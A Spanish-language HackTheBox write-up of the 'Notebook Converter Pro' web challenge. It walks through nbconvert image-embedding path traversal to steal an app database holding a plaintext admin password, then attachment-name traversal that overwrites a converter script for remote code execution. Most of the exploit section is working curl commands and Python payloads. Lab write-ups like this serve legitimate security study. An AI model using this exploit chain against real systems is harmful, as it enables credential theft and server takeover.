






## Notebook Converter Pro pts[20]

**Descripción del reto en HTB:** "Welcome to NotebookConverter Pro, a tool for converting Jupyter notebooks into different formats with ease. While it appears simple and efficient, there may be more happening behind the scenes than meets the eye."

### Herramientas Utilizadas

- Burp Suite Community
- curl
- python 3
- sqlite3

### Reconocimiento

Al iniciar el target e ingresar la URL se presenta una pantalla de login con un formulario de registro. Se registra un usuario de prueba y se inicia sesión para explorar la superficie de ataque.

Con sesión activa se accede al dashboard. La interfaz es minimalista: un formulario para subir un archivo `.ipynb` y elegir entre `html` y `markdown` como formato de salida. En la barra de navegación no hay enlace a ninguna zona de administración, aunque el rol `admin` podría existir dado que la aplicación distingue entre tipos de usuario.

Se configura Burp Suite como proxy (154.57.164.76:32302) y se navega por toda la aplicación. En se identifican todos los endpoints:


| Método | Endpoint | Notas |
|---|---|---|
| GET / POST | `/` | Login |
| POST | `/register` | Registro |
| GET | `/logout` | Cierre de sesión |
| GET | `/dashboard` | Requiere sesión |
| POST | `/convert` | Subida del notebook |
| GET | `/jobs/<job_id>` | Detalle del job |
| GET | `/jobs/<job_id>/download` | Descarga del resultado |
| GET / POST | `/admin` | Panel admin — devuelve 403 con usuario regular |

Al intentar acceder a `/admin` con el usuario registrado se recibe un **403 Forbidden**, lo que confirma que existe una zona restringida por rol.


Se sube un notebook `.ipynb` legítimo y se intercepta el request. El `POST /convert` es un `multipart/form-data` con dos campos: el archivo y el formato de salida.

```
POST /convert HTTP/1.1
Host: <target>
Cookie: session=<token>
Content-Type: multipart/form-data; boundary=...

...
Content-Disposition: form-data; name="notebook"; filename="test.ipynb"
...contenido del notebook...
...
Content-Disposition: form-data; name="format"

html
...
```


La respuesta es un **302** hacia `/jobs/<job_id>`. Desde ahí se puede descargar el resultado procesado. Entonces el server aceptó el notebook enviado y creó una tarea de procesamiento identificada por un job_id, redirigiendo al usuario a la ruta /jobs/342101d274ff, donde posteriormente puede consultarse o descargarse el resultado generado. El hecho de que la conversión se complete exitosamente, sin errores de validación ni restricciones visibles, puede ser que el servidor analiza y procesa activamente el contenido interno del notebook. Dado que el resultado final depende de lo que contiene el archivo enviado,  es posible que el backend ejecuta o interpreta parte de dicho contenido durante el proceso de conversión. Tal vez, si el notebook incluye referencias a recursos locales o rutas del sistema de archivos, estas podrían ser procesadas por el servidor y reflejarse en la salida generada, lo que justificaría realizar pruebas adicionales para evaluar el alcance de ese acceso.

#### Path traversal en referencias de imagen

Los notebooks de Jupyter soportan Markdown, y en Markdown las imágenes se insertan con ``. Si el servidor no valida esas rutas al generar el HTML, podría leer archivos arbitrarios del sistema de archivos.

Se puede construir un notebook mínimo a mano apuntando a una alguna direccion:

```bash
cat > test_traversal.ipynb << 'EOF'
{
  "cells": [{
    "cell_type": "markdown",
    "metadata": {},
    "source": [""]
  }],
  "metadata": {
    "kernelspec": {"display_name": "Python 3", "language": "python", "name": "python3"},
    "language_info": {"name": "python", "version": "3.11.0"}
  },
  "nbformat": 4,
  "nbformat_minor": 4
}
EOF
```

### 2. Análisis del Código Fuente

Descargando el codigo fuente desde HTB, se analiza el código fuente para entender el mecanismo exacto, identificar qué archivos robar y descubrir si existe otra vulnerabilidad.

#### 2.1 Por qué funciona el AFR `convert_job.py`

```python
def convert_html(input_path, output_dir):
    exporter = nbconvert.HTMLExporter()
    exporter.embed_images = True   
    body, _resources = exporter.from_filename(str(input_path))
    ...
```

Con `embed_images = True`, `nbconvert` resuelve cada referencia `` del notebook, ergo, lee el archivo desde el sistema de archivos de forma literal y lo incrusta como `data:...;base64,...` en el HTML. No hay ninguna validación de ruta, por ejemplo: `../../../../`.

#### 2.2 Qué archivo robar `db.py`

```python
DB_PATH = DATA_DIR / "app.db"

admin_password = secrets.token_urlsafe(14)

conn.execute(
    "INSERT INTO users (username, password, role) VALUES (?, ?, ?)",
    ("admin", admin_password, "admin"),
)
```

1. La base de datos está en una ruta predecible: `data/app.db` relativa a la raíz del proyecto.
2. La contraseña del admin se genera aleatoriamente pero se almacena en texto plano, sin ningún hash.

Los notebooks se guardan en `data/jobs/<job_id>/incoming/`. La ruta relativa desde ahí hasta la DB es exactamente `../../../../data/app.db`.

#### 2.3 `FilesWriter` escribe rutas sin validar

En `services/conversions.py` hay una configuración oculta activable solo por el admin:

```python
def determine_storage_mode(output_format):
    if output_format == "markdown":
        return "saved_assets" if setting_enabled("asset_storage_enabled") else "single_file"
    return "single_file"
```

Cuando `asset_storage_enabled` está activo y el formato es Markdown, `convert_job.py` usa la clase `FilesWriter` de nbconvert, en la funcion `convert_markdown()`:

```python
writer = FilesWriter(build_directory=str(output_dir))
writer.write(body, resources, notebook_name=input_path.stem)
```

`FilesWriter` escribe los attachments del notebook en disco usando el nombre de clave del attachment como nombre de archivo, concatenándolo directamente con `build_directory` sin ninguna validación de path traversal. Si el nombre del attachment es `../../../../app/converter/convert_job.py`, el archivo se escribe fuera del directorio de exports y sobreescribe el script legítimo.

Ese script es ejecutado como subproceso en cada conversión:

```python
# services/conversions.py
subprocess.run([sys.executable, str(CONVERTER_SCRIPT), "--input", ..., "--output-dir", ...])
```

Esto convierte el path traversal en escritura en un Remote Code Execution, es decir, sobreescribir el script para que la próxima conversión ejecute el código del atacante.

Sin embargo, esta funcionalidad está desactivada por defecto (`asset_storage_enabled = 0`) y solo el admin puede activarla. Por eso el primer objetivo es robar la DB y obtener las credenciales de admin antes de intentar el file write.


### 3. Exploit

#### 3.1. Registro y login de usuario de prueba

```bash
TARGET="http://154.57.164.74:32480"

# Registro del usuario de ataque
curl -s -X POST "$TARGET/register" -c /tmp/user_cookies.txt \
  -d "username=$USER&password=$PASS&confirm_password=$PASS"

# Login — guarda la cookie de sesión en /tmp/c.txt
curl -s -X POST "$TARGET/" -c /tmp/user_cookies.txt -b /tmp/user_cookies.txt \
  -d "username=$USER&password=$PASS" -L -o /dev/null
```




#### 3.2. Construir el notebook para robar la DB

```bash
cat > /tmp/steal.ipynb << 'NOTEBOOK'
{
  "cells": [
    {
      "cell_type": "markdown",
      "metadata": {},
      "source": [""]
    }
  ],
  "metadata": {
    "kernelspec": {"display_name": "Python 3", "language": "python", "name": "python3"},
    "language_info": {"name": "python", "version": "3.11.0"}
  },
  "nbformat": 4,
  "nbformat_minor": 4
}
NOTEBOOK
```

La ruta `../../../../data/app.db` navega desde `data/jobs/<id>/incoming/` (donde se guarda el notebook) hasta `data/app.db` (la base de datos de la aplicación).


#### 3.3 Subir el notebook y descargar el HTML con la DB embebida

```bash
# Subir el notebook malicioso
curl -s -X POST "$TARGET/convert" \
  -c /tmp/user_cookies.txt -b /tmp/user_cookies.txt \
  -F "notebook=@/tmp/steal.ipynb" \
  -F "format=html" \
  -D /tmp/headers.txt -o /dev/null

# Extraer el job_id del header Location del redirect
JOB_ID=$(grep -i 'location:' /tmp/headers.txt | grep -oP '/jobs/\K[0-9a-f]+')
echo "job: $JOB_ID"

# Descargar el HTML con la DB embebida
curl -s "$TARGET/jobs/$JOB_ID/download" \
  -c /tmp/user_cookies.txt -b /tmp/user_cookies.txt \
  -o /tmp/db_out.html

echo "$(wc -c < /tmp/db_out.html) bytes -> /tmp/db_out.html"
```



#### 3.4. Extraer la contraseña del admin de la DB robada

El HTML contiene múltiples blobs base64 (recursos del tema de nbconvert: fuentes, íconos, CSS). Se extrae la contraseña con Python:

```python
# extract_creds.py
import re, base64, sqlite3

html = open('/tmp/db_out.html', 'rb').read().decode('utf-8', errors='replace')
matches = re.findall(r'data:[^;]*;base64,([A-Za-z0-9+/=]+)', html)

for m in matches:
    try:
        data = base64.b64decode(m)
    except Exception:
        continue

    if data[:6] == b'SQLite':
        open('/tmp/stolen.db', 'wb').write(data)
        conn = sqlite3.connect('/tmp/stolen.db')
        for row in conn.execute("SELECT username, password, role FROM users"):
            print(f"{row[0]}:{row[1]} ({row[2]})")
        conn.close()
        break
```




#### 3.5. Login como admin y activar `asset_storage_enabled`

```bash
ADMIN_PASS="IGD40-eerRdFR5upjG0"

curl -s -X POST "$TARGET/" -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -d "username=admin&password=$ADMIN_PASS" -L -o /dev/null

curl -s -X POST "$TARGET/admin" -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -d "asset_storage_enabled=on" -o /dev/null
```




#### 3.6. Construir el notebook con el payload RCE

El payload que reemplazará a `convert_job.py` debe:
1. Ejecutar `/readflag` para obtener la flag.
2. Escribir el resultado en un archivo dentro del `output_dir` del job.
3. Imprimir exactamente `{"status": "ok", "output_path": "..."}` en stdout, que es el contrato que `conversions.py` espera para marcar el job como completado y exponer el archivo en `/download`.

```python
import json, base64

code = r"""import subprocess, json, argparse
from pathlib import Path

r = subprocess.run(['/readflag'], capture_output=True, text=True)
flag = r.stdout.strip()

parser = argparse.ArgumentParser()
parser.add_argument('--output-dir', required=False)
args, _ = parser.parse_known_args()

if args.output_dir:
    out = Path(args.output_dir) / 'flag.html'
    out.write_text(f'<html><body><h1>{flag}</h1></body></html>')
    print(json.dumps({"status": "ok", "output_path": str(out)}))
"""

nb = {
  "cells": [{
    "cell_type": "markdown",
    "metadata": {},
    "attachments": {
      "../../../../app/converter/convert_job.py": {
        "application/octet-stream": base64.b64encode(code.encode()).decode()
      }
    },
    "source": ["# x"]
  }],
  "metadata": {
    "kernelspec": {"display_name": "Python 3", "language": "python", "name": "python3"},
    "language_info": {"name": "python", "version": "3.11.0"}
  },
  "nbformat": 4,
  "nbformat_minor": 4
}

json.dump(nb, open('/tmp/pwn.ipynb', 'w'), indent=2)
print("[+] /tmp/pwn.ipynb")
```

**Por qué funciona la clave del attachment:** `FilesWriter` itera sobre el diccionario de outputs del notebook y usa la clave de cada entrada directamente como nombre de archivo al escribirlo en disco. La clave `../../../../app/converter/convert_job.py`, concatenada con el `build_directory` del job (directorio de exports), resuelve a la ruta absoluta del script legítimo en el servidor.


#### 3.7. Subir `pwn.ipynb` para sobreescribir el script

```bash
curl -s -X POST "$TARGET/convert" \
  -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -F "notebook=@/tmp/pwn.ipynb" \
  -F "format=markdown" \
  -D /tmp/pwn_headers.txt -o /dev/null

JOB_ID=$(grep -i 'location:' /tmp/pwn_headers.txt | grep -oP '/jobs/\K[0-9a-f]+')
echo "pwn job: $JOB_ID"
```

#### 3.8. Triggear el RCE enviando cualquier conversión

Con `convert_job.py` reemplazado, cualquier nueva conversión ejecutará el payload. Se reutiliza el `steal.ipynb` anterior:

```bash
curl -s -X POST "$TARGET/convert" \
  -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -F "notebook=@/tmp/steal.ipynb" \
  -F "format=html" \
  -D /tmp/rce_headers.txt -o /dev/null

JOB_ID=$(grep -i 'location:' /tmp/rce_headers.txt | grep -oP '/jobs/\K[0-9a-f]+')
echo "job: $JOB_ID"

curl -s "$TARGET/jobs/$JOB_ID/download" \
  -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -o /tmp/flag_out.html
```

#### 3.9 Flag

```bash
grep -oP 'HTB\{[^}]+\}' /tmp/flag_out.html
```

```
FLAG: HTB{y3t_4n0th3r_pyth0n_c0nv3rt3r_cve}
```




### Vulnerabilidades

| # | Vulnerabilidad | Archivo afectado | CWE | CAPEC | Impacto |
|---|---|---|---|---|---|
| 1 | Path Traversal en `embed_images` de nbconvert → AFR | `converter/convert_job.py` | CWE-22 | CAPEC-126 | Lectura de archivos arbitrarios del servidor |
| 2 | Contraseña de admin almacenada en texto plano | `db.py` | CWE-256 | — | Credenciales admin expuestas al leer la DB |
| 3 | Path Traversal en `FilesWriter` → sobreescritura de código | `converter/convert_job.py` | CWE-22 + CWE-94 | CAPEC-17, CAPEC-253 | Remote Code Execution |

